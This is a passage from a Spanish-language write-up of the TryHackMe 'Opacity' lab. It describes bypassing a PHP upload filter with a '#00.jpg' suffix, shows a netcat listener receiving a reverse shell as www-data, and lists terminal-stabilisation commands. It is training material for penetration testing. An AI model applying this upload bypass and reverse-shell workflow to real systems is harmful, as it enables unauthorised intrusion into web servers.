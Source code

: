 ![](/images/opacity/Pasted image 20240716164124.png)

El modo de evasión que utilice fue colocar el `#00.jpg` después de la extensión PHP.
https://book.hacktricks.xyz/pentesting-web/file-upload

Y obtuve la conexión inversa:
```ruby
┌──(isui㉿kali)-[~/TryHackMe/Opacity]
└─$ nc -nlvp 4445
listening on [any] 4445 ...
connect to [10.21.16.176] from (UNKNOWN) [10.10.42.125] 57386
Linux opacity 5.4.0-139-generic #156-Ubuntu SMP Fri Jan 20 17:27:18 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 22:36:45 up  2:49,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (733): Inappropriate ioctl for device
bash: no job control in this shell
www-data@opacity:/$
```

Luego realice el tratamiento de la TTY:

ngresar el comando (en nuestra terminal de atacante de Kali):
```
script /dev/null -c bash
```
Pulsar la combinación: `ctrl + z`
Escribir el comando:
```
stty raw -echo; fg
```
Pulsar `Enter` y escribir:
```
reset xterm
```
Escribir:
```
export TERM=xterm
```
Ahora debemos colocar nuestra terminal en pantalla completa para trabajar más comodo en caso de comandos muy largos:
```
stty rows 30 columns 100
```

Hemos terminado el tratamiento de nuestra terminal interactiva.

![](/images/opacity/Pasted image 20240716164619.png)

Comencé entonces a enumerar el usuario y directorio en donde me encontraba:

![](/images/opacity/Pasted image 20240716165426.png)

Encontré la primer bandera, pero no tenia el acceso suficiente, ya que el usuario `sysadmin` es quien tiene permisos:
